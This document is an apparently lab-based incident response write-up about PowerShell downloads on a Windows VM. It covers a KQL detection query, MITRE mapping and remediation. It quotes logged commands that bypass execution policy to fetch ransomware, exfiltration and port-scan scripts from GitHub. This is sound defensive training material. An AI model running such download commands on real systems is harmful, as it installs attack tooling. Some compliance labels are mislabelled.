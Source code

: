 # 🛡️ Incident Response Report: PowerShell Suspicious Web Request (NIST 800-61 Compliant)

---

## 1. Detection

**Incident Trigger:**  
An alert was raised for suspicious PowerShell web requests involving the account:

**Account:** `<king>`

**Affected Host Information:**
- **HostName:** `king-vm`
- **Operating System:** Windows
- **OS Version:** Windows
- **Last Internal IP Address:** `10.0.0.84`
- **Last External IP Address:** `68.154.42.194`

**Observed Commands Executed:**  
The following PowerShell commands were executed using the `-ExecutionPolicy Bypass` parameter:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
```

🧮 Detection Query:
To investigate the execution of suspicious PowerShell scripts, the following KQL query was used:

```kql
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == "king-vm"
| where ProcessCommandLine contains "-File" and InitiatingProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, InitiatingProcessCommandLine
```

### 📑 NIST 800-161 Compliance:

- ID.AM-1: Inventory and management of user accounts and scripts.

- PR.DS-5: Protection of system integrity by detecting unauthorized code execution.

## 2. Analysis

#### Code Review: Using Browserling, the URLs were accessed, and the scripts were analyzed. Each script’s function was verified and categorized.

#### One-Line Descriptions of Each Script:

- **[portscan.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/portscan.ps1)** - Scans a specified IP range for open common ports and logs the results for network reconnaissance.

- **[eicar.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/eicar.ps1)** - Creates an EICAR test file to simulate a benign virus detection for testing antivirus software responses.

- **[exfiltratedata.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/exfiltratedata.ps1)** - Generates fake employee data, compresses it, and uploads it to Azure Blob Storage to simulate data exfiltration.

- **[pwncrypt.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/pwncrypt.ps1)** - Encrypts files containing sensitive data and leaves a ransom note, simulating ransomware behavior.

## MITRE ATT&CK TTP Assessment:
- **T1046 - Network Service Scanning**: Executed through portscan.ps1.

- **T1059.001 - Command and Scripting Interpreter**: PowerShell - Usage of PowerShell for execution.

- **T1567.002 - Exfiltration Over Alternative Protocol**: Data exfiltration simulated by uploading to Azure Blob Storage.

- **T1486 - Data Encrypted for Impact**: Encryption of local files via pwncrypt.ps1.

## 3. Containment, Eradication, and Recovery
🚫 Containment Actions:

- Isolated the device from the network using Microsoft Defender for Endpoint (MDE).

- Executed a comprehensive antivirus (AV) scan to detect and mitigate any further malicious code.

### Eradication Steps:

- Reimaged the device and redeployed it using the last known good backup.

### Recovery Measures:

- Enrolled the affected user in an updated security awareness training program using KnowBe4.

- Developed and implemented a new policy to restrict PowerShell usage for non-administrative users.

## 📑 NIST 800-61 Compliance:

- PR.PT-5: Restrict execution of scripts and enforce least privilege for administrative actions.

- RS.MI-3: Eradication of malware and unauthorized scripts.

- RC.IM-1: Implementation of improved policies to mitigate future incidents.

## 4. Lessons Learned & Security Improvements
- Enhance monitoring rules for PowerShell execution with bypass flags.

- Implement stricter conditional access and endpoint protection policies.

- Regularly audit administrative privileges and script execution logs.


